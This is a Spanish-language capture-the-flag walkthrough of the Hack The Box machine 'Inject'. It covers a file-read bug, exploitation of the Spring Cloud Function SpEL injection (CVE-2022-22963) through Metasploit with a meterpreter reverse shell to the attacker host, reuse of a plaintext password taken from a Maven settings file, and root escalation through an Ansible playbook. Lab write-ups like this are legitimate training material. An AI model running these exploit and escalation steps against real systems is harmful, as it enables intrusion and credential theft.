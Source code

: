 # Inject HTB

- Ip atacante - 10.10.14.83
- Ip victima - 10.10.11.204

## Nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.11.204 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 12:40 EDT
Nmap scan report for 10.10.11.204
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Entrando en la pagina, veo un log in y sign up, sin embargo no estan funcionando y recien las estan implementando.

De la misma manera existe un directorio ``/upload`` entrando intente enviar un archivo .php pero no me dejo y me dice que solo puedo enviar imagenes.

Al enviar una imagen de un leon e interceptar el view image con burp veo que puedo ver archivos de la computadora

![](img/inject1.png)

De esta imagen vemos un posible usuario, el cual es phil

Aqui dentro encontramos a frank tambien, viendo los directorios de los usuarios no encontramos nada. Felizmente el listado de los directorios funciona muy bien. Aqui dejo un ejemplo

![](img/inject2.png)
![](img/inject3.png)
![](img/inject4.png)

Buscando esa tecnologia vemos que es vulnerable a RCE https://spring.io/security/cve-2022-22963

## Metasploit

```bash
❯ msfconsole

msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution
```

Primero proble con el exploit numero 3 pero no funciono, asi que fui con el numero 2

```bash
msf6 exploit(linux/http/spring_cloud_gateway_rce) > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set rhosts 10.10.11.204
rhosts => 10.10.11.204
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set lhost 10.10.14.83
lhost => 10.10.14.83
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.83:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Meterpreter session 1 opened (10.10.14.83:4444 -> 10.10.11.204:57008) at 2023-03-18 13:39:03 -0400

meterpreter > shell
Process 36596 created.
Channel 1 created.
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
python3 -c 'import pty;pty.spawn("/bin/bash")' 
frank@inject:~$ export TERM=xterm SHELL=bash
```

Ya con eso podemos trabajar mejor
Viendo la carpeta de frank vemos que existe un directorio ``.m2``

## Pivoting to Phil

```bash
frank@inject:~$ ls -la
ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1 18:38 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2
cd .m2
frank@inject:~/.m2$ ls
ls
settings.xml
frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Encontramos las credenciales de phil
pivoteamos al usuario phil

```bash
frank@inject:/home/phil$ su phil                      
su phil
Password: DocPhillovestoInject123

phil@inject:~$ id
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```
### user flag

```bash
phil@inject:~$ cat user.txt
cat user.txt
*********************f2191fe6f20
```
## Escalacion de privilegios
```bash
phil@inject:~$ ls -la 
ls -la
total 152
drwxr-xr-x 5 phil phil   4096 Mar 18 18:09 .
drwxr-xr-x 4 root root   4096 Feb  1 18:38 ..
drwxrwxr-x 3 phil phil   4096 Mar 18 17:31 .ansible
lrwxrwxrwx 1 root root      9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil   3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil   4096 Feb  1 18:38 .cache
drwx------ 3 phil phil   4096 Mar 18 16:54 .gnupg
-rw-rw-r-- 1 phil phil 115775 Mar  8 17:04 linpeas.sh
-rw-r--r-- 1 phil phil    807 Feb 25  2020 .profile
-rw-rw-r-- 1 phil phil     85 Mar 18 17:40 shell.yml
-rw-r----- 1 root phil     33 Mar 18 13:47 user.txt
```
```bash
phil@inject:~$ cat shell.yml
cat shell.yml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```
```bash
phil@inject:~$ bash -p
bash -p
bash-5.0# whoami
whoami
root
```
### root flag
```bash
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
playbook_1.yml	root.txt
bash-5.0# cat root.txt
cat root.txt
*********************6d54aa59ce9
```